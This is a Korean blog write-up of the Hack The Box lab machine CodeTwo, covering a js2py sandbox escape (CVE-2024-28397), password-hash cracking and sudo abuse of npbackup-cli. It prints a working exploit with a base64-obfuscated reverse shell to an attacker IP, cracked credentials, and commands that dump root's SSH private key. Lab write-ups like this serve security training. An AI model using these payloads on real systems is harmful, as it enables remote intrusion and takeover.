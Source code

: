 ```yaml
---
title: HTB - Codetwo Write up
date: 2025-08-31
author: glasses96
categories: [WEB]
tags: [HTB]
pin: true
math: false
mermaid: true
---
```


> **HTB Codetwo Write up 입니다.**  
{: .prompt-info }

# Port Scanning
포트 스캔 결과 `22`, `8000` 포트가 열려있다.  

- 22 : SSH 
- 8000 : 웹 서비스, linux

```
nmap -sC -sV -p 22,8000 10.10.11.82 -oA tcp_detail
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-08-29 22:32 KST
Nmap scan report for 10.10.11.82
Host is up (0.20s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 a0:47:b4:0c:69:67:93:3a:f9:b4:5d:b3:2f:bc:9e:23 (RSA)
|   256 7d:44:3f:f1:b1:e2:bb:3d:91:d5:da:58:0f:51:e5:ad (ECDSA)
|_  256 f1:6b:1d:36:18:06:7a:05:3f:07:57:e1:ef:86:b4:85 (ED25519)
8000/tcp open  http    Gunicorn 20.0.4
|_http-title: Welcome to CodeTwo
|_http-server-header: gunicorn/20.0.4
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.61 seconds
```

## Web Service 분석
웹 페이지에는 아래와 같은 기능이 있다.

- `/login` : 로그인
- `/download` : 웹 서비스 소스코드 다운로드
- `/register` : 회원 가입
- 로그인 이후 기능
    - `/dashboard` : 화면 뷰
    - `/run_code` : 삽입한 javascript 실행 후 결과를 보여줌
    - `/save_code` : javscript 삽힙한 코드 저장
    - `/delete_code/<code_id>` : javscript 저장 삭제. 


![run_codePage](/assets/post/72/1.png)


### Source Code Download

`/download`에서 소스코드를 다운받아 분석을 통해 가장 의심스러운 부분을 발견할 수 있으며, js2py.eval_js() 함수를 사용하고 있다.

```py
@app.route('/run_code', methods=['POST'])
def run_code():
    try:
        code = request.json.get('code')
        result = js2py.eval_js(code)
        return jsonify({'result': result})
    except Exception as e:
        return jsonify({'error': str(e)})
```

`requirements.txt` 파일에 `js2py 0.74` 라이브러리 버전이 명시되어 있다.
```
flask==3.0.3
flask-sqlalchemy==3.1.1
js2py==0.74
```

### CVE-2024-28397

js2py 0.74 버전은 CVE-2024-28397에 취약한 버전이며, [PoC]("https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape")가 공개되어 있다.  
해당 취약점은 `Sandbox을 탈출하여 RCE`가 되는 취약점이다.

### Exploit Code

- RevereShell 연결 명령

```js
// [+] command goes here:
let cmd = "echo 'c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTEzLzk5OTkgMD4mMQ=='|base64 -d | bash "
let hacked, bymarve, n11
let getattr, obj

hacked = Object.getOwnPropertyNames({})
bymarve = hacked.__getattribute__
n11 = bymarve("__getattribute__")
obj = n11("__class__").__base__
getattr = obj.__getattribute__

function findpopen(o) {
    let result;
    for(let i in o.__subclasses__()) {
        let item = o.__subclasses__()[i]
        if(item.__module__ == "subprocess" && item.__name__ == "Popen") {
            return item
        }
        if(item.__name__ != "type" && (result = findpopen(item))) {
            return result
        }
    }
}

n11 = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate()
console.log(n11)
n11
```

## Post-Exploitation

### Macro password crack

`/home/app` 디렉토리에 `marco` 폴더를 확인할 수 있다.  

```
drwxr-xr-x  4 root  root  4096 Jan  2  2025 .
drwxr-xr-x 18 root  root  4096 Nov 16  2024 ..
drwxr-x---  5 app   app   4096 Apr  6 03:22 app
drwxr-x---  6 marco marco 4096 Aug 29 13:45 marco

```

그다음 뭐 딱히 할 수 있는게 없어서, app폴더 파일을 찾아보니 `/app/instance/users.db`를 찾을 수 있다.  
`DBvear` 도구를 이용해 db 파일 내 3개의 계정 및 패스워드 해시를 발견할 수 있다. 

```
username | password_hash
marco	649c9d65a206a75f5abe509fe128bce5
app	a97588c0e2fa3a024876339e27aeb42e
testuser	16d7a4fca7442dda3ad93c9a726597e4
```

`hash-identifier`로 해시 값을 확인 시 `MD5` 해시가 제일 유력하고, `hashcat`을 이용하여 `rockyou.txt`로 해시크랙을 수행했다.  
```
- `macro:sweetangelbabylove`
- `testuser:test1234`
```

그 결과 macro 패스워드가 크랙이 되었고 SSH로 macro 계정에 접근할 수 있다.  

### Privilege escalation

macro 계정에서 `sudo -l` 입력 시  NOPASSWD `/user/local/bin/npbackup-cli`를 확인할 수 있다.   

```
sudo -l
Matching Defaults entries for marco on codetwo:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User marco may run the following commands on codetwo:
    (ALL : ALL) NOPASSWD: /usr/local/bin/npbackup-cli

```

`npbackup-cli` 파일은 `ROOT`로 권한 상승 할만한 부분이 보이지는 않았다.  

```py
cat /usr/local/bin/npbackup-cli
#!/usr/bin/python3
# -*- coding: utf-8 -*-
import re
import sys
from npbackup.__main__ import main
if __name__ == '__main__':
    # Block restricted flag
    if '--external-backend-binary' in sys.argv:
        print("Error: '--external-backend-binary' flag is restricted for use.")
        sys.exit(1)

    sys.argv[0] = re.sub(r'(-script\.pyw|\.exe)?$', '', sys.argv[0])
    sys.exit(main())
```

해메다가 macro 홈디렉토리에 `npbackup.config` 파일을 확인할 수 있었다.  
해당 파일에서 `groups`에 `path` 옵션에 `/root/.ssh`을 통해 해당 부분을 백업하도록 하면 루트 개인키를 얻을 수 있다.  

```
conf_version: 3.0.1                                                                                                                                  
audience: public                                                                                                                                     
repos:                                                                                                                                               
  default:                                                                                                                                           
    repo_uri:                                                                                                                                        
      __NPBACKUP__wd9051w9Y0p4ZYWmIxMqKHP81/phMlzIOYsL01M9Z7IxNzQzOTEwMDcxLjM5NjQ0Mg8PDw8PDw8PDw8PDw8PD6yVSCEXjl8/9rIqYrh8kIRhlKm4UPcem5kIIFPhSpDU+e+
E__NPBACKUP__                                                                                                                                        
    repo_group: default_group                                                                                                                        
    backup_opts:                                                                                                                                     
      paths:                                                                                                                                         
      - /home/app/app/                                                                                                                               
      source_type: folder_list                                                                                                                       
      exclude_files_larger_than: 0.0                                                                                                                 
    repo_opts:                                                                                                                                       
      repo_password:                                                                                                                                 
        __NPBACKUP__v2zdDN21b0c7TSeUZlwezkPj3n8wlR9Cu1IJSMrSctoxNzQzOTEwMDcxLjM5NjcyNQ8PDw8PDw8PDw8PDw8PD0z8n8DrGuJ3ZVWJwhBl0GHtbaQ8lL3fB0M=__NPBACKU
P__                                                                                                                                                  
      retention_policy: {}                                                                                                                           
      prune_max_unused: 0                                                                                                                            
    prometheus: {}                                                                                                                                   
    env: {}                                                                                                                                          
    is_protected: false   
groups:                                                                                                                             00:32:33 [26/100]
  default_group:                                                                                                                                     
    backup_opts:                                                                                                                                     
      paths: []  -> /root/.ssh/                                                                                                                               
...
```

마지막으로 백업 명령을 통해 root의 개인키를 가져와서 해당 키로 로그인을 하면 ROOT 권한을 얻을 수 있다.

```
sudo /usr/local/bin/npbackup-cli -c npbackup.conf -f --dump /root/.ssh/id_rsa | tee id_rsa > id_rsa
chmod 600 id_rsa
ssh -i id_rsa root@10.10.11.82
```

## Conclusion
LPE 부분에서 상당히 많은 시간을 소요했고, 결국 힌트를 보았다.  
`sudo -l`에서 문제가 있을꺼라 했는데 어떻게 접근해야하는지 잘 몰랐고, `Linpeas`를 했는데 `Polkit`이 된다고 나왔는데 해당 취약점으로 권한 상승이 잘되진 않았다.  
오랜만에 HTB 문제를 풀면서 `tmux`, `sock5 proxy`등 까먹었던 여러 기능등을 다시 해보면서 익숙해져서 재밌었다.   
